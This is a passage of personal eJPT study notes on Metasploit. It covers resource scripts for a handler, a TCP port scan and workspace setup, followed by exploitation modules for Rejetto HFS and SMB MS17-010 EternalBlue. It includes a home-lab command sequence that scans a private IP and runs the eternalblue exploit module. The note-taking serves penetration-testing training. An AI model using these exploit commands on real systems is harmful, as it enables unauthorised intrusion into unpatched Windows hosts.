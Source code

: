 * Load and run the recourse script in `msfconsole`

msfconsole -q -r handler.rc![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-dbf1e139c5e8f0aa6fbddec7ff86e88719e8dd05%2Fimage-20230415223258567.png?alt=media)msfconsole -q -r handler.rc**`e.g. 2`**nano portscan.rc​# Insert the following lines# by specifying the commands sequentially​use auxiliary/scanner/portscan/tcpset RHOSTS 192.168.31.131run​# Save it and exitmsfconsole -q -r portscan.rc![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9652fb3f7d34700f46ff906b184ad1c2111707ce%2Fimage-20230415223936432.png?alt=media)msfconsole -q -r portscan.rc**`e.g. 3`**nano db\_status.rc​db\_statusworkspaceworkspace -a TESTmsfconsole -q -r db\_status.rc![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-30a5d2563c243b3bef81b0835eaaf7aed1fdc488%2Fimage-20230415224235665.png?alt=media)

* 📌 Load up a resource script from within the `msfconsole` with the **`resource`** command

resource /home/kali/certs/ejpt/resource\_scripts/handler.rc

* Typed in commands in a new `msfconsole` session, can be exported in a new resource script

makerc /home/kali/certs/ejpt/resource\_scripts/portscan2.rc![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-6c31f9fe42cbe2502e56f60c7a96efd34cd3dee5%2Fimage-20230415224836969.png?alt=media)

### ​[Exploitation](https://www.offsec.com/metasploit-unleashed/exploits/) with MSF <a href="#exploitation-with-msf" id="exploitation-with-msf"></a>

#### HFS (HTTP File Server) <a href="#hfs-http-file-server" id="hfs-http-file-server"></a>

A **HFS** (HTTP File Server) is a file and documents sharing web server.

* Rejetto HFS - free open source HTTP file server

> 🔬 [HFS - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp)​

#### SMB - MS17-010 EternalBlue <a href="#smb-ms17-010-eternalblue" id="smb-ms17-010-eternalblue"></a>

* ​[CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)​
* ​[EternalBlue VA](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/4-va#eternalblue)​
  * **EternalBlue** takes advantage of a Windows SMBv1 protocol vulnerability
  * Patch was released in March 2017

> 🔬 Check the [Lab 2 - Eternal Blue here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/smb-psexec)​

* Some MSF useful commands from my Home Lab (`Kali VM + Win 2008_R2 Server`)

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.168.31.131setg RHOST 192.168.31.131workspace -a EternalBlue​db\_nmap -sS -sV -O 192.168.31.131search type:auxiliary EternalBlueuse auxiliary/scanner/smb/smb\_ms17\_010optionsrun​search type:exploit EternalBlueuse exploit/windows/smb/ms17\_010\_eternalblueoptionsrun
